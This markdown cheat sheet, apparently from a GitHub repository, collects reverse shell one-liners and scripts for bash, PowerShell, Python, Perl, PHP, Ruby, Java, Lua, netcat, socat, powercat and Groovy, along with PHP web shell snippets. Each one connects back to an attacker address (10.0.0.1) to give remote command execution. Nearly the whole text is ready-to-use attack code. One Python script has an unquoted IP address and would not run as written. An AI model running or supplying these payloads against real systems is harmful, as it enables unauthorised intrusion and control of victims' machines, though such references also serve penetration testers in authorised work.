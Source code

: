 
# Reverse Shell Cheat Sheet

You can find them all around the internet. I couldn't find them all in one place, so I write them down here. Don't hesitate to tell me if you find some more and I will add them to this list.

* * *
## One-liners

**Bash**

```
bash -i >& /dev/tcp/10.0.0.1/666 0>&1
```   

_or_    

```
0<&196;exec 196<>/dev/tcp/10.0.0.1/666; sh <&196 >&196 2>&196
```

_or_    

```
bash -c 'bash -i >& /dev/tcp/10.0.0.1/666 0>&1'
```


**PowerShell** 

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',666);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -Name System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


**Python for Linux**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Python for Windows**

```
exec("""import os, socket, subprocess, threading, sys\ndef s2p(s, p):\n    while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()\ndef p2s(s, p):\n    while True: s.send(p.stdout.read(1).encode())\ns=socket.socket(socket.AF_INET, socket.SOCK_STREAM)\nwhile True:\n    try: s.connect(("10.0.0.1",666)); break\n    except: pass\np=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)\nthreading.Thread(target=s2p, args=[s,p], daemon=True).start()\nthreading.Thread(target=p2s, args=[s,p], daemon=True).start()\ntry: p.wait()\nexcept: s.close(); sys.exit(0)""")
```
_or_
```
python -c 'exec("""import os, socket, subprocess, threading, sys\ndef s2p(s, p):\n    while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()\ndef p2s(s, p):\n    while True: s.send(p.stdout.read(1).encode())\ns=socket.socket(socket.AF_INET, socket.SOCK_STREAM)\nwhile True:\n    try: s.connect(("10.0.0.1",666)); break\n    except: pass\np=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)\nthreading.Thread(target=s2p, args=[s,p], daemon=True).start()\nthreading.Thread(target=p2s, args=[s,p], daemon=True).start()\ntry: p.wait()\nexcept: s.close(); sys.exit(0)""")
```


**Perl**

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=666;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


**PHP**

```php
php -r '$sock=fsockopen("10.0.0.1",666);exec("/bin/sh -i <&3 >&3 2>&3");'
```


**Ruby**

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",666).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


**Java**

```java
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/666;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();
```

**Lua**

```lua
lua -e "local s=require('socket');local t=assert(s.tcp());t:connect('10.0.0.1',666);while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();" 
```

**Telnet**

```
telnet localhost 443 | /bin/sh | telnet localhost 444
```


**Xterm**

```
xterm -display 10.0.0.1:1
```

* * * 


## PHP Web Pages

**Linux**
~~~
<?php echo shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/666 0>&1'")?>
~~~

**Windows**

```
<?php echo shell_exec("powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',666);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -Name System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"")?>
```

* * *

## Tools

**Netcat**

```
nc -e /bin/sh 10.0.0.1 666
```

**Netcat without -e**

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 666 > /tmp/f
```
 
**Socat**

```
user@ubuntu:~$ socat - TCP4:10.0.0.1:4444 EXEC:'/bin/bash -li'
C:\> socat TCP4:10.0.0.1:666 EXEC:'cmd.exe'
```

**Powercat**

```
powercat -c 10.0.0.1 -p 666 -e cmd.exe
```

* * *
## Others

**Powershell**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',666);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```


**Python for Linux**

```python
#!/usr/bin/env python
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",666))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

**Python for Windows**

```python
import os, socket, subprocess, threading, sys

def s2p(s, p):
    while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()

def p2s(s, p):
    while True: s.send(p.stdout.read(1).encode())

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
while True:
    try: s.connect((10.0.0.1, 666)); break
    except: pass

p=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)

threading.Thread(target=s2p, args=[s,p], daemon=True).start()

threading.Thread(target=p2s, args=[s,p], daemon=True).start()

try: p.wait()
except: s.close(); sys.exit(0)

try:
    p.wait()
except KeyboardInterrupt:
    s.close()
```

**Groovy**

```groovy
String host="10.0.0.1";
int port=1234;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

**PHP**

The very good Pentestmonkey [php reverse shell](https://github.com/flast101/reverse-shell-cheatsheet/blob/master/php-reverse-shell.php).

Be Curious, Learning is Life ! :smiley:
